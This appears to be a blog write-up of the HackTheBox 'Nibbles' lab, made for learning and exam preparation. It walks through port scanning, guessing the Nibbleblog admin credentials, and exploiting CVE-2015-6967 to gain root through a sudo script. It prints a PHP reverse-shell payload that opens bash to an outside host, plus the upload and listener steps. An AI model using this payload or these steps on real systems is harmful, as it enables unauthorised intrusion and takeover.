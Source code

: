 ```yaml
---
title: HackTheBox - Nibbles
date: 2020-12-23 23:37:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nibbleblog, default credentials, CVE-2015-6967, metasploit, meterpreter, reverse-shell, sudo weak configuration, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/nibbles.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Nibbles-full-port-scan.txt 10.10.10.75
Warning: 10.10.10.75 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.75
Host is up (0.096s latency).
Not shown: 65508 closed ports
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
4418/tcp  filtered axysbridge
```

### Apache/4.18 (port 80)

By inspecting the sources on port 80, we see there is a hidden directory `/nibbleblog/`:

![view-source-hidden-dir](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/view-source-hidden-dir.png)

Once we wo to his "hidden" directory we see that is qa website powered by [**Nibbleblog**](http://www.nibbleblog.com/), which turns out to be an open source CMS for blogs: 

![nibbleblog](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/nibbleblog.png)

While I was navigating on the website, I encountered the following error:

![XML error](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/XML-error.png)

Maybe there is something to do with it, but let's continue our enumeration.

#### Nibbleblog

Since I'm looking for more information, I ran `dirb` on [http://10.10.10.75/nibbleblog/](http://10.10.10.75/nibbleblog/):

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/dirb.png)

On [http://10.10.10.75/nibbleblog/README](http://10.10.10.75/nibbleblog/README), we get the version number (`v4.0.3`) of **Nibbleblog**:

![version](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/version.png)

Bibbidi-Bobbidi-Boo...there is an exploit available!

![searchsploit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/searchsploit.png)

But it requires credentials so we have to go further:

![exploit-options](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/exploit-options.png)

#### Credentials

I made a quick search &rarr; _"nibbleblog default credentials"_. Unfortunately, I didn't find anything. \

Nevertheless, there is an admin's page: [http://10.10.10.75/nibbleblog/admin.php](http://10.10.10.75/nibbleblog/admin.php). We can try some basic username/password combinations like `admin/admin`, `root/root` or even `nibbles/nibbles`.

`admin/nibbles` worked:

![success](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/success.png)

#### Metasploit

Let's go back to the exploit:

![msf](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/msf.png)

By doing so, we have a meterpreter. That's nice, but in order to avoid this "black box" method, let's exploit the vulnerability without this tool.

#### [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/) exploitation

Thanks to [https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html), we can follow the steps to perform the exploit:

![packetstorm](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/packetstorm.png)

1. Prepare our PHP reverse shell:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'");
```

2. Upload our malicious file to [http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image):

![plugins > my image](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/my_image.png)

3. Run a listener &rarr; `nc -lnvp 1234`

4. Visit [http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php). Now we have a shell:

![shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/shell.png)

## User (nibbler)

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home
<ml/nibbleblog/content/private/plugins/my_image$ cd /home                    
nibbler@Nibbles:/home$ ls
ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ ls -la
ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Dec 23 15:17 user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
e598bb90bc9ff2f87b72e2083c1cb95a
nibbler@Nibbles:/home/nibbler$
```

Let's see what we can run with `sudo`:

```bash
$ sudo -l 
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

## Root

Okay so we just have to replace `/home/nibbler/personal/stuff/monitor.sh` by malicious content:

```bash
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo "cat /root/root.txt" > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b59ce6c276598083872b41d4785c3e8
```

___

## Useful links

- [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/)
- [Packetstorm NibbleBlog 4.0.3 Shell Upload](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)

